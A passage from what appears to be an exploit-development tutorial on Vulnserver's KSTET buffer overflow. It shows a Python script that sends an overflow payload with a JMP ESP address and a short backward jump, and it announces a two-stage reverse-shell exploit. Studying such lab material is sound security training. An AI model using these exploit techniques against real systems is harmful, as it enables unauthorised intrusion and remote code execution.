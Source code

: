 And check it:

<div class="imgblock">

![JMP ESP](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331150/blog/vulnserver-kstet/jmp1_izwtmw.gif)

</div>

Great\! However, as you can see, we landed on a 20 bytes buffer where we
put the `C` chars, but we have 66 bytes above on the buffer of the `A`
chars.

With a short jump backward, we can easily jump to that place:

<div class="imgblock">

![JMP backwards](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331148/blog/vulnserver-kstet/jmp2_qzbcsx.gif)

</div>

The resultant bytes were `EB B5`. We can update our exploit with that:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'KSTET ' +
    b'A' * 70 +
    # 625011BB    FFE4                        JMP ESP
    struct.pack('<L', 0x625011BB) +
    # JMP SHORT 0xb5
    b'\xeb\xb5' +
    b'C' * (26 - 2)
)

with socket.create_connection((HOST, PORT)) as fd:
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
```

And check it:

<div class="imgblock">

![JMP backwards](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331149/blog/vulnserver-kstet/jmp3_pbycxb.gif)

</div>

But again, we were brutally reminded that we have a narrow buffer space
to work on.

To work around that constraint, we will use a 2-stage exploit this time,
where the first stage will be a very short shellcode that opens the door
to the second stage, which will contain our reverse shellcode.
